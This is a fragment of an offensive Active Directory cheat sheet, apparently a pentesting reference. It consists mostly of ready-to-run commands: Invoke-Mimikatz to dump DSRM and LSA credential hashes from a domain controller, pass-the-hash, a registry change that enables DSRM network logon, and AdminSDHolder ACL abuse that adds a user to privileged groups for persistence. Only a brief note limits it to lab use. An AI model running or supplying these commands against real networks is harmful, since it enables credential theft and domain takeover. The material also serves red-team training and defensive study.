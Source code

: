 ### Addt'l Notes
- Very noisy
- Involves service installation and a kernel mode driver and files on disk
- Do not use outside of lab environments, you shouldn't ever need to use this technique

## Directory Services Restore Mode (DSRM)
|Command|Description|
|---|---|
|Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName \$ComputerName|Dump DSRM password (requires DA privs)|
|Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName \$ComputerName|Compare Administrator hash with the Administrator hash of this command, first one is DSRM local admin|
|Invoke-Mimikatz -Command '"sekurlsa::pth /domain:\$DomainName /user:\$Username /ntlm:\$NTLMHash /run:powershell.exe"'|Pass Administrator Hash|

### Addt'l Notes:
- Since it is the local admin of the DC, we can pass the hash to authenticate
- Need to change the logon behavior of the DSRM account before using the hash:
```
Enter-PSSession -ComputerName \$ComputerName New-ItemProperty "HKLM:\\System\\CurrentControlSet\\Control\\Lsa\\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

## ACLs

### AdminSDHolder
- Resides in the System container of a domain, used to control the permissions for certain built-in privileged groups (Protected Groups)
- Controls all permissions for:
    - Account Operators - Cannot modify DA/EA/BA groups. Can modify nested group within these groups.
    - Backup Operators - Backup GPO, edit to add SID of controlled account to a privileged group, restore.
    - Server Operators - Run a command as system (using the disabled Browser service)
    - Print Operators - Copy ntds.dit backup, load device drivers
    - Domain Admins
    - Replicator
    - Enterprise Admins
    - Domain Controllers
    - Read-Only Domain Controllers
    - Schema Admins
    - Administrators
- SDPROP (Security Descriptor Propogator) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL

#### Active Directory Module
|Command|Description|
|---|---|
|Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=\$Domain,DC=\$Domain' -Principal \$samAccountName -Verbose|Add FullControl permissions for \$samAccountName using Set-ADACL as DA|
|Add-ADGroupMember -Identity '\$GroupName' -Members \$Username|Abusing FullControl and adding a user to \$GroupName|
